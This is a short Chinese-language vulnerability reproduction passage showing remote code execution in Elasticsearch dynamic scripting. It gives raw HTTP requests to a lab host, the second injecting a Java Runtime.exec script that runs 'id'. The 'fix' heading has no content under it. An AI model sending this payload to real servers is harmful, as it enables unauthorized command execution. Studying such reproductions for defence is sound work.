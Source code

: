 因为该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```
POST /website/blog/ HTTP/1.1
Host: 192.168.15.130:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

![](https://ae01.alicdn.com/kf/HTB1zYVUdQxz61VjSZFr760eLFXak.png)

然后，插入payload去执行代码：

```
POST /_search?pretty HTTP/1.1
Host: 192.168.15.130:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```

![](https://ae01.alicdn.com/kf/HTB1pah8e.GF3KVjSZFo762mpFXaO.png)

## 修复方法
